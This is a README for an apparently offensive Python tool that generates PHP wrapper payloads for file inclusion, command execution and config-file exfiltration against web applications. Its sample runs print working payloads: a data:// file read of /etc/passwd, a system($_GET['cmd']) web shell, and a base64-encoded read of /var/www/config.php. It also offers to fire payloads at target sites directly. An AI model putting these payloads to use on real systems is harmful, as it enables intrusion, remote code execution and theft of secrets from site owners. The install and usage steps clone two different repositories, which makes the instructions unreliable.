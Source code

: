 ## PHP Data Exfiltration Automation Tool

## Overview
This is an advanced penetration testing tool for automating the discovery and exploitation of PHP data exfiltration vulnerabilities in web applications. It allows ethical hackers and security researchers to efficiently test for issues like local file inclusion, remote code execution, path traversal etc.

The tool is written in Python and works on Linux platforms. It has an intuitive text-based interface to guide the user through generating optimized payloads for injection testing.
Installation


```
git clone https://github.com/ethicalhacker/php-exfiltrate
cd php-exfiltrate
```
# Usage

## To start the tool, simply run:

```
git clone https://github.com/MolCoteH/LFI-RFI
cd LFI-RFI
python php-exfiltrate.py

```
# This will present an interactive menu-driven interface to configure payload options.

## The key steps are:

    Select the writing model (data://, php://filter etc.)
    Choose a mime-type for the data (text/plain, application/x-php etc.)
    Pick a built-in payload (file_get_contents, system command execution etc.)
    Set payload parameters like filenames, commands etc.
    The tool constructs and displays the complete payload
    Option to directly test the payload on a target site

## Payloads

The tool contains the following well-commented payloads spanning multiple exfiltration techniques:

    File Inclusion - Extract arbitrary files from the system
    Code Execution - Execute OS commands via backdoors like system()
    File Reads - Exfiltrate sensitive data like config files
    Path Traversal - Access files outside web directories
    Source Code Disclosure - Dump source code of application pages
    Protocol Bypasses - Use obscure data types to bypass whitelist
    PHP Wrapper Tests - Check for misconfigurations in wrappers like php://input

Users can also easily add custom payloads to the existing codebase.

## Sample Runs

Here are some sample runs showing practical usage:
# LFI Payload with /etc/passwd

```
python php-exfiltrate.py

Select model > 2. data://
Choose data type > 1. text/plain
Select payload > 4. file inclusion 
Enter filename > /etc/passwd

Generated payload:

data://text/plain,<?php echo file_get_contents('/etc/passwd');?>
```
# Get OS Shell with System Execution:
```
python php-exfiltrate.py

Select model > 1. data:
Choose data type > 2. application/x-php
Select payload > 2. system execution
Append command > &cmd=ls -la

Generated payload:  

data:application/x-php,<?php system($_GET['cmd']);?>&cmd=ls -la
```
# Exfiltrate PHP Config in Base64 Format
```
python php-exfiltrate.py

Select model > 2. data://  
Choose data type > 1. text/plain
Select payload > 8. base64 file read
Enter filename > /var/www/config.php

Generated payload:

data://text/plain;base64,PD9waHAgZWNobyBiYXNlNjRfZW5jb2RlKGZpbGVfZ2V0X2NvbnRlbnRzKCcvdmFyL3d3dy9jb25maWcucGhwJykpOz8+
```
This provides an overview of the key capabilities of the tool. It simplifies and automates the manual process of PHP penetration testing and vulnerability discovery. The modular design allows rapid enhancements as well.

